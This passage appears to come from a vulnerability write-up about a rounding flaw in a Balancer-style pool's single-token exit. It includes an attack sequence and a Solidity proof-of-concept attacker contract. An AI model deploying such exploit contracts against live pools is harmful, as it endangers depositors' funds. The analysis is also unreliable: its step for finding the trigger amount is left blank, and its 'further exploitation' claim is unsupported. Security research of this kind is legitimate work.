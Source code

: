 5. **Exploitation**: Since `amountOutWithoutFee = 0`, all subsequent calculations result in `0`, but the function doesn't revert, allowing the transaction to succeed with zero output.

### **Attack Vector**

1. **Attacker** calls `exitPool()` with `EXACT_BPT_IN_FOR_ONE_TOKEN_OUT`
2. **Attacker** provides a `bptAmountIn` that triggers the rounding issue
3. **Pool** calculates `amountOut = 0` due to the underflow
4. **Attacker** receives `0` tokens but burns their BPT
5. **Pool** state becomes inconsistent, allowing further exploitation

### **Proof of Concept**

```solidity
// Attacker contract
contract BalancerExploit {
    IVault public vault;
    IERC20 public poolToken;
    IERC20 public targetToken;
    bytes32 public poolId;
    
    constructor(address _vault, bytes32 _poolId, address _poolToken, address _targetToken) {
        vault = IVault(_vault);
        poolId = _poolId;
        poolToken = IERC20(_poolToken);
        targetToken = IERC20(_targetToken);
    }
    
    function exploit() external {
        // 1. Get pool tokens (through legitimate means or flash loan)
        uint256 bptBalance = poolToken.balanceOf(address(this));
        
        // 2. Calculate the exact BPT amount that triggers the vulnerability
        // This requires finding the specific value where balanceRatio > 1
        
        // 3. Exit pool with exact BPT in for one token out
        IVault.ExitPoolRequest memory request;
        request.assets = new address[](1);
        request.assets[0] = address(targetToken);
        
        request.minAmountsOut = new uint256[](1);
        request.minAmountsOut[0] = 0; // Accept any amount
        
        request.userData = abi.encode(
            WeightedPoolUserData.ExitKind.EXACT_BPT_IN_FOR_ONE_TOKEN_OUT,
            bptBalance, // This triggers the vulnerability
            0 // Token index
        );
        
        request.toInternalBalance = false;
        
        // 4. Execute the exploit
        vault.exitPool(poolId, address(this), payable(address(this)), request);
        
        // 5. The attacker receives 0 tokens but burns their BPT
        // This creates an inconsistent state that can be exploited further
    }
}
```
